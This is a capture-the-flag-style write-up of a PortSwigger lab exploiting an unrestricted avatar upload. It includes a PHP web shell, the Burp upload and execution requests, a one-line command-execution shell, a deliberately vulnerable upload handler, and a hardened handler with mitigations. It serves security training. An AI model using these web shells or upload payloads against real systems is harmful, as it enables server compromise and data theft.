




# Lab 01: Remote Code Execution via Web Shell Upload

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — Unrestricted File Upload Leading to Remote Code Execution (Web Shell)

## Vulnerability Summary
The application's avatar upload feature accepts arbitrary file types with no validation on file extension, MIME type, or content. An attacker can upload a PHP web shell disguised as an avatar. The server stores the file under a predictable path (`/files/avatars/`) and executes it when accessed directly via a GET request. This allows reading arbitrary files from the server filesystem, demonstrated here by exfiltrating `/home/carlos/secret`.

## Attack Methodology

### Step 1: Recon — Identify the Upload Endpoint
Logged in as `wiener` and navigated to **My Account**. The profile page exposes an avatar upload form that POSTs to `/my-account/avatar`.

Burp Proxy HTTP history confirmed the upload flow:

| # | Method | URL | Status |
|---|--------|-----|--------|
| 278 | POST | `/my-account/avatar` | 200 |
| 275 | GET | `/my-account?id=wiener` | 200 |



### Step 2: Craft the Web Shell
Created a minimal PHP web shell that reads the target file:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Saved as `exploit.php`.

### Step 3: Upload the Web Shell
Uploaded `exploit.php` via the avatar form. Burp intercepted the multipart POST:

```http
POST /my-account/avatar HTTP/2
Host: 0a81008104e52db581cf075500e20089.web-security-academy.net
Cookie: session=2kloAK1lWf1EAIuA2gauzHsMqNblv7Hq
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3KZpbXx9O21A0Fqe

------WebKitFormBoundary3KZpbXx9O21A0Fqe
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundary3KZpbXx9O21A0Fqe
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary3KZpbXx9O21A0Fqe
Content-Disposition: form-data; name="csrf"

xqw3X49FkLEF2j8iNjo5W4lf6NlDQp60
------WebKitFormBoundary3KZpbXx9O21A0Fqe--
```

Server responded with **HTTP/2 200 OK**:

```
The file avatars/exploit.php has been uploaded.
```





### Step 4: Execute the Web Shell
Sent a GET request directly to the uploaded file path in Burp Repeater:

```http
GET /files/avatars/exploit.php HTTP/2
Host: 0a81008104e52db581cf075500e20089.web-security-academy.net
Cookie: session=2kloAK1lWf1EAIuA2gauzHsMqNblv7Hq
```

Response:

```http
HTTP/2 200 OK
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 32

JZXe0FMNSIUNcN5fDnxkrt2civmGgi7A
```

The secret was returned directly in the response body. Lab solved.



## Technical Root Cause

### Vulnerable Upload Handler (No Validation)
```python
def upload_avatar(request):
    file = request.FILES['avatar']
    # No extension check, no MIME type check, no content inspection
    path = os.path.join(AVATARS_DIR, file.name)
    with open(path, 'wb') as f:
        f.write(file.read())
    return HttpResponse(f"The file avatars/{file.name} has been uploaded.")
```

Three missing controls:
1. No file extension whitelist — `.php` is accepted alongside `.jpg`, `.png`
2. No MIME type validation — `Content-Type: application/x-php` is accepted
3. Uploaded files are stored in a web-accessible directory (`/files/avatars/`) served by Apache, which executes `.php` files

### Secure Upload Handler
```python
import magic

ALLOWED_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.gif', '.webp'}
ALLOWED_MIMES = {'image/jpeg', 'image/png', 'image/gif', 'image/webp'}

def upload_avatar(request):
    file = request.FILES['avatar']

    # 1. Check extension
    ext = os.path.splitext(file.name)[1].lower()
    if ext not in ALLOWED_EXTENSIONS:
        return HttpResponseBadRequest('File type not permitted')

    # 2. Check MIME type from actual file content (not Content-Type header)
    mime = magic.from_buffer(file.read(2048), mime=True)
    file.seek(0)
    if mime not in ALLOWED_MIMES:
        return HttpResponseBadRequest('File content not permitted')

    # 3. Rename to a random filename — never trust the original name
    safe_name = str(uuid.uuid4()) + ext
    path = os.path.join(AVATARS_DIR, safe_name)
    with open(path, 'wb') as f:
        f.write(file.read())

    return HttpResponse("Avatar updated.")
```

Additionally, the upload directory must be configured to **not execute scripts**:

```apache
# Apache — disable script execution in upload directory
<Directory "/var/www/html/files/avatars">
    php_flag engine off
    Options -ExecCGI
    AddType text/plain .php .php3 .phtml .phar
</Directory>
```

## Impact
- **Arbitrary File Read**: The web shell can read any file accessible to the web server process (`/home/carlos/secret`, `/etc/passwd`, application source code, credentials)
- **Remote Code Execution**: `<?php system($_GET['cmd']); ?>` would give full OS command execution
- **Full Server Compromise**: With RCE, an attacker can pivot to reverse shells, lateral movement, and data exfiltration

**Severity: Critical**

## Proof of Concept

**Step 1 — Upload web shell:**
```http
POST /my-account/avatar HTTP/2
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------boundary--
```

**Step 2 — Execute and read secret:**
```http
GET /files/avatars/exploit.php HTTP/2
Host: <lab-id>.web-security-academy.net
```

Response body contains the secret directly.

## Key Takeaways
1. **Never Trust the Client-Supplied Filename or Content-Type**: The `filename` in `Content-Disposition` and the `Content-Type` header in a multipart upload are both attacker-controlled. Validation must be done server-side on the actual file content using a library like `libmagic`.
2. **Upload Directories Must Not Execute Code**: Even if file type validation is perfect, defense-in-depth requires that the directory serving uploaded files is configured to never execute scripts. A misconfigured Apache/Nginx can execute a `.php` file even if the application tried to block it.
3. **Rename Uploaded Files**: Storing files under attacker-controlled names allows path traversal and predictable URL access. Always generate a random UUID-based filename server-side.
4. **Serve Uploads from a Separate Origin**: Ideally, uploaded files should be served from a separate domain (e.g., a CDN or object storage bucket) that has no script execution capability and is isolated from the application's origin.

## Mitigation
- Whitelist allowed file extensions and validate against actual file content (magic bytes), not the `Content-Type` header
- Rename uploaded files to random UUIDs server-side
- Store uploads outside the web root, or configure the upload directory to disable script execution
- Serve user-uploaded content from a separate, sandboxed origin
- Implement file size limits to prevent denial-of-service via large uploads

## References
- [PortSwigger — Remote Code Execution via Web Shell Upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [Apache — Disabling PHP in a Directory](https://httpd.apache.org/docs/2.4/howto/htaccess.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, HTTP History)
- Chromium

---

*Lab completed on: 2026-05-12*
*Writeup by vibhxr*
